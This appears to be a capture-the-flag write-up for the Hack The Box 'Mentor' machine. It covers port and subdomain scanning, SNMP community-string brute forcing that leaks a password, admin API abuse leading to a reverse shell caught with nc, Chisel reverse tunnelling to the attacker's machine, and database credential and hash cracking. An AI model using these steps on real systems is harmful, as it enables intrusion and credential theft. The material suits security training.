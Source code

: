 ## Scanning

We start with nmap port sca and givving as 2 open ports; 22 nd 80 and `udp` ports
```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --min-rate 10000 10.10.11.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 00:02 EST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.086s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1214/udp  closed fasttrack
1993/udp  closed snmp-tcp-port
16862/udp closed unknown
20288/udp closed unknown
21948/udp closed unknown
49968/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```
Changing the host nmae to `mentorquotes.htb`, giving as a webpage with some motivation quotes.
![](/Hack-The-Box/Precious/img/1.png)


We used `feroxbuster` for hidden directory scan andgot nothing intresting, so we gone for sub-domain enumeration usung `wfuzz` and found a domain named `api`
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://mentorquotes.htb/  -H "Host: FUZZ.mentorquotes.htb" -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 302
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000077:   404        0 L      2 W        22 Ch       "api"          
```
 the page shows nothing intresting 
 ![](/Hack-The-Box/Precious/img/2.png)

so we did content discovery using `wfuzz` and found something intresting
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://api.mentorquotes.htb/FUZZ  -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.mentorquotes.htb/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000003:   307        0 L      0 W        0 Ch        "admin"                                                                                                                                           
000000076:   200        30 L     62 W       969 Ch      "docs"                                                                                                                                            
000000129:   307        0 L      0 W        0 Ch        "users"                                                                                                                                           
000001011:   307        0 L      0 W        0 Ch        "quotes"                                                                                                                                          
000003781:   403        9 L      28 W       285 Ch      "server-status"            
```

 ![](/Hack-The-Box/Precious/img/3.png)

since `snmp`  port is open we are brute forcing community string using `nmap`
we found two stirings named `public and internal` so using `snmpwalk ` we do some basic enumerations and found a intresting password from `internal` 
` STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`

Let’s try to sign up for a new account using the email address `james@mentorquotes.htb`

 ![](/Hack-The-Box/Precious/img/5.png)

The sign-up process did not work using the email address that we found. Let’s try using a different email address instead.

![](/Hack-The-Box/Precious/img/6.png)
 
Now that we have created a new account, let’s try using the login function to access it

![](/Hack-The-Box/Precious/img/7.png)

Upon successful login, the login function provided us with a JWT (JSON Web Token), which we can use to authenticate future requests to the website.
We are using this JWT to access `GET /users` along with  `Authorization` header

![](/Hack-The-Box/Precious/img/8.png)

We received a response stating that only an administrator can access this resource.So from `snmpwalk` we found a password using that password we tried to login and get a valid JWT.

![](/Hack-The-Box/Precious/img/9.png)

let’s try the function using the new JWT to see if we have the necessary permissions.

![](/Hack-The-Box/Precious/img/10.png)
we were able to successfully run the ‘get users’ function and retrieve the list of users.

let’s check the contents of the ‘admin’ directory.
![](/Hack-The-Box/Precious/img/11.png)

`/check` was not implemented yet and changing the method of `/backup` gives a response
![](/Hack-The-Box/Precious/img/12.png)

since api is more verbose we add some wrong parametrs to find the orginal response 

![](/Hack-The-Box/Precious/img/13.png)

now we try to create our revershell payload.
![](/Hack-The-Box/Precious/img/14.png)

we get shell as root 
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ nc -nvlp 7878                  
listening on [any] 7878 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.193] 45147
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # 
```
now we realize that we are indside a docker container.
After reviewing the local files, we found a file called ‘db.py’ located in the ‘/app/app’ directory. This file contains information about the PostgreSQL database.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)

```
In order to access the database we need to tunnel to our machine and use the credentials.

## Tunneling

Use  Chisel to create a tunnel to our machine and use the credentials that we found in the ‘db.py’ file.

`our machine: ./chisel_1.7.7_linux_amd64  server --port 9595 --reverse`

`docker shell: ./chisel_1.7.7_linux_amd64 client -v 10.10.14.12:9595 R:5432:172.22.0.1:5432`

Now we are able to acesss the database
`psql -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres`

![](/Hack-The-Box/Precious/img/15.png)

we were able to carck service_acc hash password `123meunomeeivani`

while running `linepeas` we found `snmpd.conf` file.
![](/Hack-The-Box/Precious/img/16.png)

there is our password
![](/Hack-The-Box/Precious/img/17.png)



![](/Hack-The-Box/Precious/img/18.png)



![](/Hack-The-Box/Precious/img/19.png)
